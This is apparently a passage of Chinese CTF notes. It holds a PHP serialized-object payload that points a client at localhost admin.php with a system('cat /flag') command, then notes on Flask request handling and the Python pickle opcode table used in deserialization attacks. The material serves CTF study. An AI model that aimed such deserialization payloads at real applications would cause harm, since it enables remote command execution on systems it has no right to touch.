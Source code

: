 ```php
}
?> You can't get flag
```
只用让本地访问就可以了
```php
$pop = new client;
$pop -> url = "http://127.0.0.1/admin.php";
$pop -> payload = "system(\"cat /flag\");";
echo serialize($pop);
```
这个payload不知道是什么用，admin.php可以直接echo $flag <br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1708181453826-9e8ccb8e-11d6-4aed-b726-5df29ccc18d5.png#averageHue=%23a1a1a1&clientId=uf15c7f70-885c-4&from=paste&height=935&id=NK2EP&originHeight=1542&originWidth=2560&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=399942&status=done&style=none&taskId=u389aa933-3009-4a8f-831d-0253dda1803&title=&width=1551.515061839996)<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1708181466859-43e073bc-8d58-4cd1-b894-059f64b37ea5.png#averageHue=%23d3d3d2&clientId=uf15c7f70-885c-4&from=paste&height=935&id=eLqu1&originHeight=1542&originWidth=2560&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=565254&status=done&style=none&taskId=u58160013-389c-4461-a965-17afa83461d&title=&width=1551.515061839996)
<a name="a0rDg"></a>
## 整理pickle笔记
<a name="SHBJR"></a>
# flask基础：
request.form.get("key", type=str, default=None) 获取表单数据<br />request.args.get("key") 获取get请求参数<br />request.values.get("key") 获取所有参数
<a name="AU1mC"></a>
# Pickle
```python
MARK           = b'('   # push special markobject on stack
STOP           = b'.'   # every pickle ends with STOP
POP            = b'0'   # discard topmost stack item
POP_MARK       = b'1'   # discard stack top through topmost markobject
DUP            = b'2'   # duplicate top stack item
FLOAT          = b'F'   # push float object; decimal string argument
INT            = b'I'   # push integer or bool; decimal string argument
BININT         = b'J'   # push four-byte signed int
BININT1        = b'K'   # push 1-byte unsigned int
LONG           = b'L'   # push long; decimal string argument
BININT2        = b'M'   # push 2-byte unsigned int
NONE           = b'N'   # push None
PERSID         = b'P'   # push persistent object; id is taken from string arg
BINPERSID      = b'Q'   #  "       "         "  ;  "  "   "     "  stack
REDUCE         = b'R'   # apply callable to argtuple, both on stack
STRING         = b'S'   # push string; NL-terminated string argument
BINSTRING      = b'T'   # push string; counted binary string argument
SHORT_BINSTRING= b'U'   #  "     "   ;    "      "       "      " &lt; 256 bytes
UNICODE        = b'V'   # push Unicode string; raw-unicode-escaped'd argument
BINUNICODE     = b'X'   #   "     "       "  ; counted UTF-8 string argument
APPEND         = b'a'   # append stack top to list below it
BUILD          = b'b'   # call __setstate__ or __dict__.update()
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
DICT           = b'd'   # build a dict from stack items
EMPTY_DICT     = b'}'   # push empty dict
APPENDS        = b'e'   # extend list on stack by topmost stack slice
GET            = b'g'   # push item from memo on stack; index is string arg
BINGET         = b'h'   #   "    "    "    "   "   "  ;   "    " 1-byte arg
INST           = b'i'   # build &amp; push class instance
LONG_BINGET    = b'j'   # push item from memo on stack; index is 4-byte arg
LIST           = b'l'   # build list from topmost stack items
```